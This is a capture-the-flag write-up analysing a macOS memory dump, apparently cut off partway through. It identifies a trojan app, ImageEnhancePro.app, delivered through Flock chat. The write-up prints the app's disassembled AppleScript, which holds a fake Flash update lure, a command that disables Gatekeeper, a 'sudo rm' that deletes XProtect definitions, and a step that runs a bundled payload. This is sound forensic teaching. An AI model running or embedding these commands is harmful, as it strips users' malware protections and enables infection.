





# S4nct1m0ny


### Challenge Description
Peter Parker, the Daily Bugle’s star photographer and secretly Spider-Man, exposed Eddie Brock’s fake Spider-Man photos, earning J. Jonah Jameson’s praise. When Eddie begged for forgiveness, Peter snapped, “You want forgiveness? Get religion.” Humiliated, Eddie—now bonded with Venom—plotted his revenge. Recently, Peter faced performance issues with his laptop and sent it in for service. Upon its return, he noticed something was off. His Spider-Sense tingled — someone had tampered with it. Help Peter analyse the compromised system

**Challenge File**:
+ [Primary Link](https://drive.google.com/file/d/1f8wWkLfwaMpSRcq-Gua8hdcmPQcabpOB/view?usp=sharing)
+ [Mirror Link](https://mega.nz/file/5ClWnLAK#MBTjnlzVwAmK3hfNUp2FoB0rE7HHmeLiHdtPhbcnZPY)

**MD5 Hash**: 
c962ed1ae53f2003658caa07d47d33eb

### Writeup

We have been presented with a .raw file whose size is 6.45 GB upon a small peek in the hex editor we can confirm that the given file indeed is a memory dump

Q1/15) What is the OS version of the compromised system?
Format: *OS_version_number*

well, for this we were asked to find the operating system and version the of the compromised system from which the memory dump was acquired, so intially we can do the `banners.Banners` from volatility 3 :

ok when u search online for this kernel version u get :


https://en.wikipedia.org/wiki/OS_X_El_Capitan

also when we can use volatility 2 determine the profile, since we already know its a macOS operating system we can the plugin `mac_get_profile`:


well from the above we can conclude that the answer to the first question is `OS_X_El_Capitan_10.11.6` or `macOS_El_Capitan_10.11.6` as it was rebranded later  moving on to the next question

Q2/15) What is the hostname of the compromised system?
Format: *hostname*

To extract the hostname from the macOS El Capitan memory dump, I developed a custom Volatility 2 plugin. The hostname is a critical piece of information in forensic investigations as it helps identify the specific machine that was compromised. Volatility 2's built-in Mac plugins don't include a hostname extraction tool. However, the macOS kernel stores the system hostname in global variables that persist in memory:
- `_hostname` - Contains the actual hostname string
- `_hostnamelen` - Stores the length of the hostname (32-bit integer)
By leveraging Volatility's symbol resolution capabilities, we can locate these kernel variables directly in the memory dump without needing to search through potentially unreliable process memory or parse file system artifacts.

The plugin works through the following steps:

1. **Symbol Resolution**: Uses the Volatility profile (specific to macOS 10.11.6) to resolve the kernel symbols `_hostname` and `_hostnamelen` to their actual memory addresses
2. **Read Length**: Reads 4 bytes from the `_hostnamelen` address and unpacks it as a little-endian unsigned integer using `struct.unpack('<I', raw_len)[0]`
3. **Read Hostname**: Using the length value, reads exactly that many bytes from the `_hostname` address to extract the hostname string
4. **Cleanup**: Removes null terminators and returns the hostname

Just add it as `mac_get_hostname` under `volatility\volatility\plugins\mac` ,
Here is  the code :
```py
import struct
import volatility.commands as commands
import volatility.utils as utils

class mac_get_hostname(commands.Command):

    def calculate(self):
	    # Get kernel address space and profile
        kernel_space = utils.load_as(self._config)
        profile = kernel_space.profile
		
		# Resolve symbols to memory addresses
        hostname_sym = profile.get_symbol("_hostname")
        hostnamelen_sym = profile.get_symbol("_hostnamelen")

        if hostname_sym is None or hostnamelen_sym is None:
            print "[!] Could not find _hostname or _hostnamelen symbols"
            print "[!] _hostname: {0}".format(hostname_sym)
            print "[!] _hostnamelen: {0}".format(hostnamelen_sym)
            return

        print "[*] Found _hostnamelen at: 0x{0:x}".format(hostnamelen_sym)
        print "[*] Found _hostname at: 0x{0:x}".format(hostname_sym)

		# Read and parse length (4 bytes, little-endian unsigned int)
        raw_len = kernel_space.read(hostnamelen_sym, 4)
        if raw_len is None or len(raw_len) < 4:
            print "[!] Could not read hostname length"
            return

        hostnamelen = struct.unpack('<I', raw_len)[0]
        print "[*] Hostname length: {0}".format(hostnamelen)

        if hostnamelen <= 0 or hostnamelen > 256:
            print "[!] Invalid hostname length: {0}".format(hostnamelen)
            return

        # Read hostname string
        raw_hostname = kernel_space.read(hostname_sym, hostnamelen)
        if raw_hostname is None:
            print "[!] Could not read hostname string"
            return

        hostname = raw_hostname.rstrip('\x00')
        yield hostname

    def render_text(self, outfd, data):
        for hostname in data:
            outfd.write("Hostname: {0}\n".format(hostname))
```

output :
```
Volatility Foundation Volatility Framework 2.6.1
[*] Found _hostnamelen at: 0xffffff8015521a30
[*] Found _hostname at: 0xffffff8015521930
[*] Hostname length: 15
Hostname: Mac-Admin.local
```

Therefore the answer to this question is :

```
Mac-Admin.local
```

Q3/15) What is the application responsible for the initial infection of the system?

Format: *Appname*

  

when navigating through the files present by using `mac_list_files` from volatility 2 ,we can see that there is an app named `ImageEnhancePro.app` which does look a bit suspicious  as it was found under Downloads :

when we search for this app we can find it on `App Store`:

So upon analysing the applet, for which we  disassembled   the `main.scpt` under this app 
by using [applescript-disassembler](https://github.com/Jinmo/applescript-disassembler) , we get the following output:
```
=== data offset 2 ===
Function name : <Value type=object value=<Value type=event_identifier value=b'aevt'-b'oapp'-b'null'-b'\x00\x00\x80\x00'-b'****'-b'\x00\x00\x90\x00'>>
Function arguments:  <empty or unknown>
 00000 PushLiteral 0 # [177, <Value type=string value=b'\x00A\x00d\x00o\x00b\x00e\x00 \x00F\x00l\x00a\x00s\x00h\x00 \x00U\x00p\x00d\x00a\x00t\x00e\x00 \x00R\x00e\x00q\x00u\x00i\x00r\x00e\x00d\x00\n\x00\n\x00P\x00l\x00e\x00a\x00s\x00e\x00 \x00i\x00n\x00s\x00t\x00a\x00l\x00l\x00 \x00t\x00h\x00e\x00 \x00l\x00a\x00t\x00e\x00s\x00t\x00 \x00u\x00p\x00d\x00a\x00t\x00e\x00 \x00t\x00o\x00 \x00c\x00o\x00n\x00t\x00i\x00n\x00u\x00e\x00.'>]
 00001 PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 00002 PushLiteral 2 # [177, <Value type=string value=b'\x00I\x00n\x00s\x00t\x00a\x00l\x00l'>]
 00003 Push1
 00004 MakeVector
 00005 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00006 PushLiteral 4 # [177, <Value type=string value=b'\x00I\x00n\x00s\x00t\x00a\x00l\x00l'>]
 00007 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00008 PushLiteral 6 # <Value type=object value=<Value type=constant value=0x7374696300000002>>
 00009 PushLiteral 7 # <Value type=fixnum value=0x6>
 0000a MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0000d StoreResult
 0000e ErrorHandler 27
     00011 PushLiteral 9 # [177, <Value type=string value=b'\x00s\x00p\x00c\x00t\x00l\x00 \x00-\x00-\x00m\x00a\x00s\x00t\x00e\x00r\x00-\x00d\x00i\x00s\x00a\x00b\x00l\x00e'>]
     00012 PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     00013 PushTrue <disassembler not implemented>
     00014 Push2
     00015 MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     00018 EndErrorHandler 51
 0001b HandleError 12 13
 00020 PushLiteral 14 # [177, <Value type=string value=b'\x00F\x00a\x00i\x00l\x00e\x00d\x00 \x00t\x00o\x00 \x00d\x00i\x00s\x00a\x00b\x00l\x00e\x00 \x00G\x00a\x00t\x00e\x00k\x00e\x00e\x00p\x00e\x00r\x00:\x00 '>]
 00021 PushVariable [var_0]
 00022 Concatenate
 00023 PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 00024 PushLiteral 15 # [177, <Value type=string value=b'\x00O\x00K'>]
 00025 Push1
 00026 MakeVector
 00027 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00028 PushLiteralExtended 16 # [177, <Value type=string value=b'\x00O\x00K'>]
 0002b PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 0002c PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 0002f PushLiteral 7 # <Value type=fixnum value=0x6>
 00030 MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 00033 StoreResult
 00034 ErrorHandler 67
     00037 PushLiteralExtended 18 # [177, <Value type=string value=b'\x00s\x00u\x00d\x00o\x00 \x00r\x00m\x00 \x00-\x00f\x00 \x00/\x00S\x00y\x00s\x00t\x00e\x00m\x00/\x00L\x00i\x00b\x00r\x00a\x00r\x00y\x00/\x00C\x00o\x00r\x00e\x00S\x00e\x00r\x00v\x00i\x00c\x00e\x00s\x00/\x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00.\x00b\x00u\x00n\x00d\x00l\x00e\x00/\x00C\x00o\x00n\x00t\x00e\x00n\x00t\x00s\x00/\x00R\x00e\x00s\x00o\x00u\x00r\x00c\x00e\x00s\x00/\x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00.\x00p\x00l\x00i\x00s\x00t'>]
     0003a PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     0003b PushTrue <disassembler not implemented>
     0003c Push2
     0003d MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     00040 EndErrorHandler 95
 00043 HandleError 12 13
 00048 PushLiteralExtended 19 # [177, <Value type=string value=b'\x00F\x00a\x00i\x00l\x00e\x00d\x00 \x00t\x00o\x00 \x00d\x00i\x00s\x00a\x00b\x00l\x00e\x00 \x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00:\x00 '>]
 0004b PushVariable [var_0]
 0004c Concatenate
 0004d PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 0004e PushLiteralExtended 20 # [177, <Value type=string value=b'\x00O\x00K'>]
 00051 Push1
 00052 MakeVector
 00053 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00054 PushLiteralExtended 21 # [177, <Value type=string value=b'\x00O\x00K'>]
 00057 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00058 PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 0005b PushLiteral 7 # <Value type=fixnum value=0x6>
 0005c MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0005f StoreResult
 00060 PushMe
 00061 Push0
 00062 MessageSend 22 # <Value type=object value=<Value type=event_identifier value=b'ears'-b'ffdr'-b'alis'-b'\x00\x00\x00\x00'-b'afdr'-b'\x00\x00 \x00'>>
 00065 PushLiteralExtended 23 # <Value type=object value=<Value type=constant value=0x70737870>>
 00068 MakeObjectAlias 21 # GetProperty

 00069 PushLiteralExtended 24 # [177, <Value type=string value=b'\x00C\x00o\x00n\x00t\x00e\x00n\x00t\x00s\x00/\x00R\x00e\x00s\x00o\x00u\x00r\x00c\x00e\x00s\x00/\x00p\x00r\x00e\x00v\x00i\x00e\x00w'>]
 0006c Concatenate
 0006d GetData
 0006e PopGlobalExtended b'venomPath'
 00071 StoreResult
 00072 ErrorHandler 129
     00075 PushGlobalExtended b'venomPath'
     00078 PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     00079 PushTrue <disassembler not implemented>
     0007a Push2
     0007b MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     0007e EndErrorHandler 157
 00081 HandleError 12 13
 00086 PushLiteralExtended 26 # [177, <Value type=string value=b'\x00E\x00r\x00r\x00o\x00r\x00 \x00i\x00n\x00s\x00t\x00a\x00l\x00l\x00i\x00n\x00g\x00 \x00u\x00p\x00d\x00a\x00t\x00e\x00:\x00 '>]
 00089 PushVariable [var_0]
 0008a Concatenate
 0008b PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 0008c PushLiteralExtended 27 # [177, <Value type=string value=b'\x00O\x00K'>]
 0008f Push1
 00090 MakeVector
 00091 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00092 PushLiteralExtended 28 # [177, <Value type=string value=b'\x00O\x00K'>]
 00095 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00096 PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 00099 PushLiteral 7 # <Value type=fixnum value=0x6>
 0009a MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0009d Return
```

so upon the analysing the disassembled output of the main.scpt of the app from the above tool Here are the key indicators of malicious behaviour:
1. **Fake Adobe Flash Update Prompt** ```
```
PushLiteral 0 → "Adobe Flash Update Required\n\nPlease install the latest update to continue."
PushLiteral 2 → "Install"
MessageSend → Display dialog
```
- Flash has been deprecated since 2020 and also why would a Image editing application use this prompt ,This mimics historic malware tactics like the `Shlayer Trojan`, which used fake Flash updaters

2. **Disabling Gatekeeper** 
```
PushLiteral 9 → "spctl --master-disable"
MessageSend → syso-exec (system execution)
```
- `spctl` controls Gatekeeper, the macOS security feature that blocks unverified apps.
-  Disabling it allows unsigned malicious apps to run freely, Legitimate applications never disable Gatekeeper silently.
3.  **Tampering with `XProtect` (Apple’s Built-in Malware Protection)**
```
PushLiteral → "sudo rm -f /System/Library/CoreServices/XProtect.bundle/Contents/Resources/XProtect.plist"
MessageSend → syso-exec

```
- This deletes the **XProtect malware definition file**, effectively **disabling macOS’s basic antivirus system**.
- `XProtect` protects users from known malware — removing it is a known **persistence and evasion technique**.

4.   **Accessing Script’s Bundle Path & Extracting Payload**
```
MakeObjectAlias → Contents/Resources/preview
GetData
Store in: venomPath
```
- The script fetches a file called `preview` from its own Resources folder,Name like `venomPath` implies it might be **a hidden payload** and Later executed via `syso-exec`.

Thus, from all the above indicators we can conclude that our suspicion was right and `ImageEnhancePro.app` was indeed the malicious application.

Q4/15) Which application was used to facilitate the download of the malicious application responsible for the infection? Format: Appname
ok for the above question we can see that safari was running, from the pslist output:
```
0xff80262f8798  Safari  515     501     20      2025-06-07 02:24:43.552119      1
```
since safari was running, and we found the malicious app `ImageEnhancePro.app` under `Downloads` ,we can try checking the Download history of safari browser to from where was it downloaded , so in order to check the history we need to get The `History.db` file under `/Users/admin/Library/Safari/History.db` , once dump the file:
```
0xffffff802706b1e0 /Users/admin/Library/Safari/History.db
```
when we open the `History.db` using  `DB Browser for SQLite` or any sqliteviewer and browse the `history_items` table:

we can see that Flock a communication chat application was downloaded, we can also see it under the `Downloads` folder:
```
0xffffff802bb215a0 /Users/admin/Downloads/Flock-macOS-2.2.513.dmg
```
so we can assume that Flock could be our potential application which was used for the download of the malicious application, to confirm this we can check `Downloads.plist` (A **Property List (plist)** file is a structured file used in macOS and iOS to store **configuration settings**, **preferences**, and **metadata** for apps and system services, It can be in **XML** or **binary** format.) from  `/Users/admin/Library/Safari/Downloads.plist` , upon dumping the file using volatlility2:
```
Volatility Foundation Volatility Framework 2.6.1
Wrote 3037 bytes to Downloads.plist from vnode at address ffffff802f9d84b0
```

upon checking the file type:
```
Downloads.plist: Apple binary property list
```
so we convert it to xml from binary format using `plutil` on macOS terminal using :
```
plutil -convert xml1 Downloads.plist -o output.plist
```
or we can also use `python3.9+` using the `plistlib` module:
```py
import plistlib

with open("Downloads.plist", "rb") as f:
    data = plistlib.load(f)  # auto detects binary or XML

with open("output.plist", "wb") as f:
    plistlib.dump(data, f, fmt=plistlib.FMT_XML)

```
after converting it to XML format which is easy to read :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>DownloadHistory</key>
        <array>
                <dict>
                        <key>DownloadEntryBookmarkBlob</key>
                        <data>
                        Ym9va9ADAAAAAAQQMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                        AAAAAAAAAAAAzAIAAAUAAAABAQAAVXNlcnMAAAAFAAAAAQEAAGFk
                        bWluAAAACQAAAAEBAABEb3dubG9hZHMAAAAcAAAAAQEAAEltYWdl
                        RW5oYW5jZVByby56aXAuZG93bmxvYWQTAAAAAQEAAEltYWdlRW5o
                        YW5jZVByby56aXAAFAAAAAEGAAAEAAAAFAAAACQAAAA4AAAAXAAA
                        AAgAAAAEAwAAszAGAAAAAAAIAAAABAMAAP+IBgAAAAAACAAAAAQD
                        AAACiQYAAAAAAAgAAAAEAwAAhNUIAAAAAAAIAAAABAMAAIXVCAAA
                        AAAAFAAAAAEGAACUAAAApAAAALQAAADEAAAA1AAAAAgAAAAABAAA
                        Qcb5xrsAAAAYAAAAAQIAAAEAAAAAAAAADwAAAAAAAAAAAAAAAAAA
                        AAgAAAAEAwAAAwAAAAAAAAAEAAAAAwMAAPUBAAAIAAAAAQkAAGZp
                        bGU6Ly8vBgAAAAEBAABTeXN0ZW0AAAgAAAAEAwAAACDBTCUAAAAI
                        AAAAAAQAAEG9U2lNAAAAJAAAAAEBAABFQkMyRkIyQy05MjE2LTNF
                        OTUtQURCOC1BQzdFNTRDOTA2ODcYAAAAAQIAAIEAAAABAAAA7xMA
                        AAEAAAAAAAAAAAAAAAEAAAABAQAALwAAAAAAAAABBQAA2AAAAAEC
                        AAA0MmU4YjM5NjVlMDljODljN2IyZmU5OTk3Y2U2MjVkY2UyY2M0
                        ZTNiOzAwMDAwMDAwOzAwMDAwMDAwOzAwMDAwMDAwMDAwMDAwMjA7
                        Y29tLmFwcGxlLmFwcC1zYW5kYm94LnJlYWQtd3JpdGU7MDAwMDAw
                        MDE7MDEwMDAwMDM7MDAwMDAwMDAwMDA4ZDU4NTsvdXNlcnMvYWRt
                        aW4vZG93bmxvYWRzL2ltYWdlZW5oYW5jZXByby56aXAuZG93bmxv
                        YWQvaW1hZ2VlbmhhbmNlcHJvLnppcADMAAAA/v///wEAAAAAAAAA
                        EAAAAAQQAAB4AAAAAAAAAAUQAADkAAAAAAAAABAQAAAQAQAAAAAA
                        AEAQAAAAAQAAAAAAAAIgAADYAQAAAAAAAAUgAABMAQAAAAAAABAg
                        AABcAQAAAAAAABEgAACMAQAAAAAAABIgAABsAQAAAAAAABMgAAB8
                        AQAAAAAAACAgAAC4AQAAAAAAADAgAADkAQAAAAAAAAHAAAAwAQAA
                        AAAAABHAAAAUAAAAAAAAABLAAABAAQAAAAAAAIDwAADsAQAAAAAA
                        AA==
                        </data>
                        <key>DownloadEntryDateAddedKey</key>
                        <date>2025-06-06T20:56:22Z</date>
                        <key>DownloadEntryDateFinishedKey</key>
                        <date>2025-06-06T20:56:22Z</date>
                        <key>DownloadEntryIdentifier</key>
                        <string>08A4C4A7-63C1-4588-A2F7-BD8AF0249895</string>
                        <key>DownloadEntryPath</key>
                        <string>~/Downloads/ImageEnhancePro.zip.download/ImageEnhancePro.zip</string>
                        <key>DownloadEntryPostBookmarkBlob</key>
                        <data>
                        Ym9va3gDAAAAAAQQMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                        AAAAAAAAAAAAdAIAAAUAAAABAQAAVXNlcnMAAAAFAAAAAQEAAGFk
                        bWluAAAACQAAAAEBAABEb3dubG9hZHMAAAATAAAAAQEAAEltYWdl
                        RW5oYW5jZVByby5hcHAAEAAAAAEGAAAEAAAAFAAAACQAAAA4AAAA
                        CAAAAAQDAACzMAYAAAAAAAgAAAAEAwAA/4gGAAAAAAAIAAAABAMA
                        AAKJBgAAAAAACAAAAAQDAACJ1QgAAAAAABAAAAABBgAAbAAAAHwA
                        AACMAAAAnAAAAAgAAAAABAAAQcb4dV0AAAAYAAAAAQIAAAIAAAAA
                        AAAADwAAAAAAAAAAAAAAAAAAAAgAAAAEAwAAAgAAAAAAAAAEAAAA
                        AwMAAPUBAAAIAAAAAQkAAGZpbGU6Ly8vBgAAAAEBAABTeXN0ZW0A
                        AAgAAAAEAwAAACDBTCUAAAAIAAAAAAQAAEG9U2lNAAAAJAAAAAEB
                        AABFQkMyRkIyQy05MjE2LTNFOTUtQURCOC1BQzdFNTRDOTA2ODcY
                        AAAAAQIAAIEAAAABAAAA7xMAAAEAAAAAAAAAAAAAAAEAAAABAQAA
                        LwAAAAAAAAABBQAAuwAAAAECAAA1M2JhNTY5MGJmN2U3Y2E2NjMw
                        NWYxOTViNzBkNmQ0MWVkNWRiYzEwOzAwMDAwMDAwOzAwMDAwMDAw
                        OzAwMDAwMDAwMDAwMDAwMjA7Y29tLmFwcGxlLmFwcC1zYW5kYm94
                        LnJlYWQtd3JpdGU7MDAwMDAwMDE7MDEwMDAwMDM7MDAwMDAwMDAw
                        MDA4ZDU4OTsvdXNlcnMvYWRtaW4vZG93bmxvYWRzL2ltYWdlZW5o
                        YW5jZXByby5hcHAAAMwAAAD+////AQAAAAAAAAAQAAAABBAAAFQA
                        AAAAAAAABRAAAKwAAAAAAAAAEBAAANQAAAAAAAAAQBAAAMQAAAAA
                        AAAAAiAAAJwBAAAAAAAABSAAABABAAAAAAAAECAAACABAAAAAAAA
                        ESAAAFABAAAAAAAAEiAAADABAAAAAAAAEyAAAEABAAAAAAAAICAA
                        AHwBAAAAAAAAMCAAAKgBAAAAAAAAAcAAAPQAAAAAAAAAEcAAABQA
                        AAAAAAAAEsAAAAQBAAAAAAAAgPAAALABAAAAAAAA
                        </data>
                        <key>DownloadEntryPostPath</key>
                        <string>~/Downloads/ImageEnhancePro.app</string>
                        <key>DownloadEntryProgressBytesSoFar</key>
                        <integer>98438</integer>
                        <key>DownloadEntryProgressTotalToLoad</key>
                        <integer>98438</integer>
                        <key>DownloadEntryRemoveWhenDoneKey</key>
                        <false/>
                        <key>DownloadEntryURL</key>
                        <string>https://fs.flockusercontent.com/667148/ab3908f17491315471862a59?response-content-disposition=attachment%3Bfilename*%3DUTF-8%27%27ImageEnhancePro.zip&amp;Expires=1749243980&amp;Signature=XsmOpvAQ-yy~gDUI5snkCweJXIoRpbH8qJtL1j0zGl5x7EHsMLoMkvlvh7g5XLZePKbPAhB0EFCfRSw4h4Dko9duyRA-~0aqq3R4EMNmxUOxxRGONvmn-rUSjNqRCCf8j1O1m0RivONFtJPLOITxB6z3D74P14aG-zH6P5aTzMfvhBF-F0CpN3CwqlYGJS-3NiTRIrm3nDaMgEDGGwFUKsmdthkYlUPl2VVAFNDusg8oKCLfP7ibt6NtEFBzF8IRfAQ5KWOR80yuc6fFF7wi79kkS8Qs626wJaWipFMKPH4H~N-~Gdlp3fNBskpcrUVuSWsveAoScf4FROEfTqdtqw__&amp;Key-Pair-Id=APKAJMN6OEFOLBEBMIJA</string>
                </dict>
        </array>
</dict>
</plist>
```
we can see in the `string` field at the bottom of the xml plist that it was indeed download `Flock` 

Q5/15) What are the username and email address associated with the Flock account that sent the malicious application? Format: *Username_email*

To track down the Flock account behind the malicious `ImageEnhancePro.app`, after conducting some research for patterns for the format used for flock to store messages ,since Flock is a messaging platform, we figured its messages might be stashed in memory. All the flock messages can be obtained from the memory dump by using `strings` and grepping  for `flockMessages` on the whole memory dump `chall.raw` :
```
$ strings chall.raw | grep flockMessages > chats.json
```

and after formatting it into `.json` , u can easily read the messages in `"text":` field :
```
"timestamp": "1748684188695",

"timestampInMillis": 1748684188695,

"uid": "1748684188695-LP1-m203",

"actions": [],

"ignoreActions": [],

"x": {}

}

],

"chat": "vx1x621ffzs2zyy6@go.to"

}

], Parker) made sure I’d never get a fair shot here. But I’m not one to hold grudges… or am I?\nAs a parting gift, I’m sharing a tool I’ve been using to up my photography game: PhotoProEnhancer.app. It’s hands-down the best editing software I’ve come across—perfect for making those “perfect shots” that apparently I couldn’t deliver, right, Peter? It’s got some killer features that’ll make your pics pop, even if you’re just snapping Spider-Man swinging by. Give it a spin, team. Maybe it’ll help you see things from a different angle… like I do now.\n\nCatch you later (or not),\nEddie Brock","timestamp":"1749131530216","timestampInMillis":1749131530216,"uid":"1749131530216-tEO-m201","actions":[],"ignoreActions":[],"x":{}}],"chat":"667148_lobby@groups.go.to"},{"messages":[],"receipts":[{"jid":"k47pkcc74p5lb5lk@go.to","lr":1749131547760}],"flockMessages":[{"attachments":[{"forward":true,"views":{},"downloads":[{"mime":"application/x-zip-compressed","src":"https: 